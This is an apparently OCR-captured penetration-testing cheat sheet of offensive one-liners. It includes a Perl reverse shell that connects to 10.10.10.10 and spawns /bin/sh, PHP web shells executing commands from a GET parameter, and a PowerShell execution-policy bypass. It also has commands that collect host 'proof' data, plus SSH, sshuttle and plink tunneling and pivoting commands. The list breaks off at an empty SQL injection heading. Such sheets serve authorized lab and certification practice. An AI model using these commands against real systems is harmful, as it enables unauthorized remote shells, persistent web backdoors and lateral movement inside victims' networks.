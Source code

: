 Perl

perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Remote Desktop

Remote Desktop for windows with share and 85% screen

rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10

PHP

PHP command injection from GET Request

<?php echo system($_GET["cmd"]);?>

#Alternative
<?php echo shell_exec($_GET["cmd"]);?>

Powershell

Non-interactive execute powershell file

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1

Misc

More binaries Path

export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/

Linux proof

hostname && whoami && cat proof.txt && /sbin/ifconfig

Windows proof

hostname && whoami.exe && type proof.txt && ipconfig /all

SSH Tunneling / Pivoting

sshuttle

sshuttle -vvr user@10.10.10.10 10.1.1.0/24

Local port forwarding

ssh <gateway> -L <local port to listen>:<remote host>:<remote port>

Remote port forwarding

ssh <gateway> -R <remote port to bind>:<local host>:<local port>

Dynamic port forwarding

ssh -D <local proxy port> -p <remote port> <target>

Plink local port forwarding

plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>

SQL Injection
